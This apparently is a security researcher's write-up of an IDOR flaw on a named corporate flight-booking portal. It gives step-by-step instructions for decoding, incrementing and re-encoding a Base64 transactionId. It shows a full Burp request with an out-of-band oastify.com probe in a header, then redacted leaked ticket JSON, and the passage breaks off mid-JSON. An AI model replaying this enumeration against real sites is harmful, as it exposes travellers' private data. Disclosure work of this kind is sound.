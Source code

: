 3. I then clicked on the “Print” button for one of the bookings, which loaded the full flight ticket information in the browser.



4. In the URL, I noticed a Base64-encoded transactionId parameter. I decoded it using a standard Base64 decoder, which revealed a simple numeric ID (e.g., 4400138432).

5. I modified this numeric ID by incrementing or guessing last four digit and then encoded it back to Base64 and then URL encoded also, and updated the URL and reloaded the page.


6. To my surprise, the portal returned another user’s complete booking details and full travel history without any form of authorization.

Automating the Exploit with Burp Suite
7. I captured this vulnerable request in Burp Suite’s HTTP history and sent it to the Repeater tab.


8. From there, I started manually modifying the transactionId values to random valid-looking numbers and sent the request.

GET /aircorpNewUser/air/bookingconfirmation?transactionId=[id-values] HTTP/1.1
Host: www.corporate.irctc.co.in
Sec-Ch-Ua-Platform: "Windows"
Authorization: Bearer [REDACTED]
Sec-Ch-Ua: "Brave";v="137", "Chromium";v="137", vrqlka46qrbf93homgeywsf3augl4bs0.oastify.com"Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Dnt: 1
Content-Type: application/json
Sec-Gpc: 1
Accept-Language: en;q=0.6
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.corporate.irctc.co.in/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive


Every valid ID returned someone else’s private travel data, proving this was a severe IDOR vulnerability.

9. Once I modified the transactionId in the URL, I was able to view the complete ticket details of other users without any form of authentication or ownership checks. This included highly sensitive data such as:


{
  "status": "SUCCESS",
  "message": "",
  "data": {
    "ticketInfo": [
      {
        "airline": "REDACTED",
        "airlineName": "REDACTED",
        "flightNumber": "REDACTED",
        "origin": "REDACTED",
        "destination": "REDACTED",
        "departureTime": "REDACTED",
        "arrivalTime": "REDACTED",
        "duration": "REDACTED",
        "pnr": "REDACTED",
        "originCity": "REDACTED",
        "destinationCity": "REDACTED",